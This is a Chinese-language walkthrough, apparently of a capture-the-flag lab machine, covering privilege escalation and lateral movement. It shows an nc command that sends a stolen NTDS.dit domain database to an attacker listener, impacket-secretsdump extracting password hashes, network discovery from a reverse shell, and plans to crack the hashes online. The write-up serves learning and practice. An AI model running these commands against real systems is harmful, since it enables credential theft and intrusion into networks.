 
#### **提权**

```
cd backups
ls 发现tomcat-users.xml
cat *.xml 显示权限不够

cd /home/tomcat/to_archive/pentest_data/
ls
```
发现两个文件，`.dit`,`.bin` 

![说明这是windows域的文件](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/12-02/%E6%8D%95%E8%8E%B7%202.PNG)

file *
说明`.dit`是data类型，`.bin`是微软windows registry文件。

- Trying: nc传文件。

kali中运行：
`nc -lvnp 443 > ntds.dit`

开启监听，并将传输的文件保存为ntds.dit

shell中运行：
`nc 攻击机IP 443 < 20170721114636_default_192.168.110.133_psexec.ntdsgrab._333512.dit`

将文件发送到指定IP的443端口

- Trying: 提取.bin文件

`impacket-secretsdump -h`

`impacket-secretsdump -ntds ntds.dit -system SYSTEM LOCAL`

得到了Target system bootKey，关于域渗透知识，还欠缺。

得到了一系列用户名和密码的hash值。

- Trying: tomcat的反弹shell中，运行
arp -a 查看局域网机器
获得`10.10.10.2` `10.0.3.133`两个机器的IP

- Trying: 对这两台机器进行扫描
运行nmap， 显示try harder!
用nc进行端口扫描，
```
nc 10.0.3.133 445				连接拒绝
nc -v 10.0.3.133 22			成功连接
```
并且显示ssh版本为，openssh，操作系统为ubuntu。

- Trying: 在线对hash进行解密
先删除明显是windows机器的hash，浏览器搜索hashkiller，对剩下的hash解密。
`awk -F: '{print $4}' hashes`
